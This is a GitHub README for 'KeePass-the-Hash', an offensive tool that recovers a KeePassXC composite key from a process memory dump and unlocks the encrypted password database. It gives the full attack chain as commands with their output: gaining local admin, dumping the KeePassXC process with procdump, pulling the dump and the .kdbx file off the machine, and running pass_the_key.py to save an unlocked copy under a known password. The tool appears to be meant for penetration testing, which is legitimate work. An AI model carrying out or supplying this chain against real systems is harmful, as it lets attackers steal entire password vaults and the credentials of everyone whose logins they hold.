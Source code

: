 # KeePass-the-Hash
A script that greps composite key-like strings from a KeePassXC process dump, then uses a customized version of [pykeepass](https://pypi.org/project/pykeepass/) library to unlock the database.

## Installation

```
git clone https://github.com/d3lb3/KeePass-the-Hash
python3 -m pip install -r requirements.txt
```

## Usage

1. Gain access to the target machine running KeePassXC as local administrator.

2. Perform a process dump from the running KeePassXC process (I typically go with [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) + [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump))

   ```
   PS C:\Windows\Temp> Get-Process keepassxc                                                                                                                                                                                                       
   Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
   -------  ------    -----      -----     ------     --  -- -----------
       358      33    36508       1396       3.22    988   1   KeePassXC                                                   
       
   PS C:\Windows\Temp> .\procdump.exe -accepteula -mm 988 keepassxc.dmp
   
   ProcDump v11.0 - Sysinternals process dump utility
   Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
   Sysinternals - www.sysinternals.com                                                                                                                                                                                                             [05:14:08] Dump 1 initiated: C:\Windows\Temp\keepassxc.dmp                                                              [05:14:09] Dump 1 writing: Estimated dump file size is 203 MB.                                                          [05:14:11] Dump 1 complete: 203 MB written in 2.2 seconds                                                               [05:14:11] Dump count reached.                                                                                          
   ```

3. Retrieve the process dump as well as the .KDBX containing the encrypted database (e.g. through SMB)

4. Run the script as follows:

   ```
   python3 pass_the_key.py <dump_file> <database_file>
   [+] Searching for a composite key in the memory dump... 
   [+] 28 candidates found, passing them to the database
   [+] Found a valid composite key !
   [+] Saved database as 'Passwords_unlocked.kdbx' with password 12345
   ```

5. You should now hopefully get a new .KDBX with password set to `12345` 
